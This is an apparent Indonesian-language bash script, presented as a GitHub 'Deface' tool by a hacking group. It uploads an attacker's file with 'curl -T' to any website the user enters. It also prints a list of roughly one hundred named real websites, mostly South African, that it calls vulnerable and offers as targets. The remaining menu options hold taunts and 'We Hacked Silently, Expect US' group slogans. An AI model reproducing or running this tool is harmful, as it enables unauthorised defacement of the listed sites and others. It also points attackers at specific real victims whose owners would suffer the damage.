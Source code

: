 # https-gihub.com-Cyberghostpirate-Deface-dirijekaja
blue='\033[34;1m' green='\033[32;1m' purple='\033[35;1m' cyan='\033[36;1m' red='\033[31;1m' white='\033[37;1m' yellow='\033[33;1m' clear echo echo echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                  CIREBON PROGRAMMER COMUNITY" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"                         CPC-TOOLS" echo $green"                       Author : suhandi" echo $cyan"                contact : rabbtdark28@gmail.com" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"           thanks to : Mr.Ghost Includex &amp; Frezz" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $green" [A].Deface" echo $green" [B].web vuln" echo $green" [C].penjelasan &amp; cara pakai" echo $red" [D].exit" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"MASUKAN PILIHAN ANDA" echo $red" " read -p " DRS@root# "  apaan  if [ $apaan = "A" ] || [ $apaan = "a" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                   DARK RABBIT SECURITY" echo $green"                    Author : suhandi" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" toilet -f standard  Deface Web echo echo $cyan" Masukan Web Target" echo $red" " read -p " DRS@root# "  target echo echo $cyan" Masukan Script Kamu" echo $red" " read -p " DRS@root# " script curl -T /storage/emulated/0/$script $target echo $green"Hasil deface =>$target/$script" echo echo $blue"Terimakasih Telah Menggunakan Jasa Kami" echo  echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi  if [ $apaan = "B" ] || [ $apaan = "b" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                   DARK RABBIT SECURITY" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $purple"                    KUMPULAN WEB VULN" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo echo $blue "SILAKAN PILIH SALAH SATU WEB VULN YANG KAMI SEDIAKAN:)" echo echo $cyan"http://bitsandpieces.co.za" echo $cyan"http://cblandscapes.co.za" echo $cyan"http://windmillsandporcupines.co.za" echo $cyan"http://scnc.co.za" echo $cyan"http://contsol.co.za" echo $cyan"http://consultec.co.za" echo $cyan"http://colourfactory.co.za" echo $cyan"http://ayk.co.za" echo $cyan"http://daretogowildafrica.co.za" echo $cyan"http://floralandfresh.co.za" echo $cyan"http://foodconsult.co.za" echo $cyan"http://itsengineering.co.za" echo $cyan"http://hybriddevelopments.co.za" echo $cyan"http://holotropicbreathwork.co.za" echo $cyan"http://hanover-cs.co.za" echo $cyan"http://handj.co.za" echo $cyan"http://lwrm.co.za" echo $cyan"http://lubbestrust.co.za" echo $cyan"http://lpenterprises.co.za" echo $cyan"http://kwalitycommodities.co.za" echo $cyan"http://mestern.co.za" echo $cyan"http://megro.co.za" echo $cyan"http://bitpc.co.za" echo $cyan"http://butterflowers.co.za" echo $cyan"http://beeit.co.za" echo $cyan"http://esfml.com" echo $cyan"http://bee-it.co.za" echo $cyan"http://mc3qs.com" echo $cyan"http://marjoriebresler.com" echo $cyan"http://naturaleyeimages.com" echo $cyan"http://my-resume.biz" echo $cyan"http://mpark.co.za" echo $cyan"http://montdestin.com" echo $cyan"http://africa-one.co.za" echo $cyan"http://ads247.co.za" echo $cyan"http://accelerate-kids.co.za" echo $cyan"http://8x8.co.za" echo $cyan"http://aaglcapetown2013.org.za" echo $cyan"http://allpaint.co.za" echo $cyan"http://andrewswebcorner.co.za" echo $cyan"http://applebyguesthouse.com" echo $cyan"http://atlanticphysio.co.za" echo $cyan"http://page31.co.za" echo $cyan"http://vaigaidigitals.com" echo $cyan"http://systemshouse.co.za" echo $cyan"http://www.studentsonline.co.za" echo $cyan"http://lucaniphysio.co.za" echo $cyan"http://www.onboardpublications.co.za" echo $cyan"http://www.oilandclay.co.za" echo $cyan"http://www.aquafitness.za.net" echo $cyan"http://www.helderbergit.co.za" echo $cyan"http://www.pipelinetape.co.za" echo $cyan"http://www.drcrsaexpress.co.za" echo $cyan"http://officeelf.co.za" echo $cyan"http://troop-1539.org" echo $cyan"http://happy.mikikk.co.jp" echo $cyan"http://www.alfunctiondesigns.co.za" echo $cyan"http://mix007.co.za" echo $cyan"http://spyroom.co.za" echo $cyan"http://sportspod.co.za" echo $cyan"http://southernafricablog.com" echo $cyan"http://stand66.com" echo $cyan"http://tapifare.com" echo $cyan"http://tankertech.co.za" echo $cyan"http://tcnig.co.za" echo $cyan"http://tcmgroup.co.za" echo $cyan"http://tressor.co.za" echo $cyan"http://trafficam.co.za" echo $cyan"http://tuthukani.co.za" echo $cyan"http://nyarhi.co.za" echo $cyan"http://digishop.co.za" echo $cyan"http://elinemsa.co.za" echo $cyan"http://disucctv.co.za" echo $cyan"http://www.cai.co.za" echo $cyan"http://tirupurjobs.net" echo $cyan"http://inlislitev3.perpusnas.go.id" echo $cyan"http://clcooling.co.za" echo $cyan"http://sublimeconfectionery.co.za" echo $cyan"http://gogreenplumbing.co.za" echo $cyan"http://golfbuzz.co.za" echo $cyan"http://grupo-cma.com" echo $cyan"http://inkspot.co.za" echo $cyan"http://kgarebana.co.za" echo $cyan"http://ittrader.co.za" echo $cyan"http://hellomobile.mobi" echo $cyan"http://homebuzz.co.za" echo $cyan"http://gordonhoward.co.za" echo $cyan"http://democonstruction.co.za" echo $cyan"http://chasingfantasia.co.za" echo $cyan"http://litehouse.co.za" echo $cyan"http://ldata.co.za" echo $cyan"http://lunique.co.za" echo $cyan"http://chillibitez.co.za" echo $cyan"http://cmweb.co.za" echo $cyan"http://essentialtours.com" echo $cyan"http://entitledvip.com" echo $cyan"http://frankadesign.com" echo $cyan"http://forget-me-not.co.za" echo $cyan"http://findpersonnel.co.za" echo $cyan"http://everythingdating.co.za" echo $purple"Sudah Memilih?" read -p " Sudah? (Y)" ya clear echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi   if [ $apaan = "C" ] || [ $apaan = "c" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"                 BANGKA BANGKE BELITUNG" echo $red"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"         UHHHHHHHHHHH" echo $red"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $white"MAMET DAN JAMET" echo $white"CYBERGHOSTPIRATE" echo $white" PANTEK" echo $purple"AKU TAKUT?" read -p " Sudah Paham? (Y) " ya clear echo $purple"Tekan Enter Untuk Kembali" read -p " " back sh deface.sh fi   if [ $apaan = "D" ] || [ $apaan = "d" ] then clear echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" echo $red"Anda Yakin Ingin Keluar?" echo $yellow"××××××××××××××××××××××××××××××××××××××××××××××××××××××××" read -p "Ya? (Y)" ya clear echo $green"SAKITNYA HATIKU" echo $green"INI" $red"CINTAKU DIBAGI BAGI" $green"APAKAH KAMU GAK MIKIR" echo $blue" We Are CPC team" echo $blue"We Hacked Silently" echo $blue"We Move With One Command" echo $blue" Expect US ! " echo echo echo echo $purple"Tekan Enter Untuk Keluar" read -p " " enter clear exit fi
